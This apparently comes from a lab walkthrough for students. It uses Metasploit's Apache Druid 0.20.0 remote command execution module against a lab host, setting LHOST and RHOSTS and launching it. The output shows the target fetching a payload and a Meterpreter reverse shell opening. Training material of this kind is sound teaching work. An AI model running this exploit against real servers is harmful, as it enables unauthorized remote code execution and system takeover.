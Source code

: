 ```
msf6 > search Apache Druid

Matching Modules
================

   #  Name                                    Disclosure Date  Rank       Check  Description
   -  ----                                    ---------------  ----       -----  -----------
   0  exploit/linux/http/apache_druid_js_rce  2021-01-21       excellent  Yes    Apache Druid 0.20.0 Remote Command Execution

Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/http/apache_druid_js_rce
```

There is only one exploit available, holding the tag number 0, thus, students need to use it by using the `use` command:

Code: shell

```shell
use 0
```

```
msf6 > use 0

[*]Using configured payload linux/x64/meterpreter/reverse_tcp
```

Students then need to know the options that need to be set for this exploit by using the `show options` (or `options` alone) command, and they will find out that only two options need to be set, `LHOST` and `RHOSTS`:

Code: shell

```shell
set LHOST tun0
set RHOSTS STMIP
```

```
msf6 exploit(linux/http/apache_druid_js_rce) > set LHOST tun0

LHOST => 10.10.14.17
msf6 exploit(linux/http/apache_druid_js_rce) > set RHOSTS 10.129.203.52

RHOSTS => 10.129.203.52
```

Afterward, students need to launch the exploit by typing either `exploit` or `run`:

Code: shell

```shell
exploit
```

```
msf6 exploit(linux/http/apache_druid_js_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.17:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Using URL: http://0.0.0.0:8080/7ojPoAXuwCndI
[*] Local IP: http://46.101.56.68:8080/7ojPoAXuwCndI
[*] Client 10.129.203.52 (curl/7.68.0) requested /7ojPoAXuwCndI
[*] Sending payload to 10.129.203.52 (curl/7.68.0)
[*] Sending stage (3012548 bytes) to 10.129.203.52
[*] Meterpreter session 1 opened (10.10.14.17:4444 -> 10.129.203.52:60952) at 2022-06-12 14:20:07 +0100
[*] Command Stager progress - 100.00% done (117/117 bytes)
```